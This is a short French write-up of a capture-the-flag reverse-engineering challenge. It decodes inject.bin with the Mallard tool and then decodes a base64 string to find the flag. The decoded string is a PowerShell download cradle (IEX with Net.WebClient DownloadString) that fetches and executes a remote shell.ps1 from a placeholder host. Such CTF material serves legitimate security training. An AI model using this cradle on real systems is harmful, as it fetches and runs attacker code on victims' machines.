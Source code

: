 # Write-up – Reverse Challenge

## Introduction

Ce challenge de reverse engineering consiste à extraire un **flag** caché dans un fichier binaire (`inject.bin`). Le processus de résolution comporte deux  étapes : l'utilisation de l'outil **Mallard** pour décoder le binaire, puis le décodage d'une **chaîne Base64** extraite.

## Étape 1 : Décodage du fichier `inject.bin`

Le fichier `inject.bin` contient des données encodées.
Pour décoder ce fichier, nous allons utiliser l'outil open-source [Mallard](https://github.com/dagonis/Mallard).

### Procédure :
1. Ouvrir un **terminal PowerShell**.
2. Cloner le dépôt GitHub de Mallard :
   ```bash
   git clone https://github.com/dagonis/Mallard
    ```
3. Entrer la commande :
    ```bash
   python3 mallard -f <path_to_file_inject.bin>
    ```

## Étape 2 : Décodage de la chaîne Base64

Le contenu obtenu contient une chaîne encodée en Base64.
```
SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vMjRIe1QwdXRfM3N0X0NAc3MzfS9zaGVsbC5wczEnKQ==
```

On peut utiliser le site [CyberChef](https://gchq.github.io/CyberChef/) pour décoder la chaine.
On peut alors trouver le flag dans la chaine décodée.
```bash
IEX (New-Object Net.WebClient).DownloadString('http://24HIUT{T0ut_3st_C@ss3}/shell.ps1')
```

## Flag

Le flag est `24HIUT{T0ut_3st_C@ss3}`.
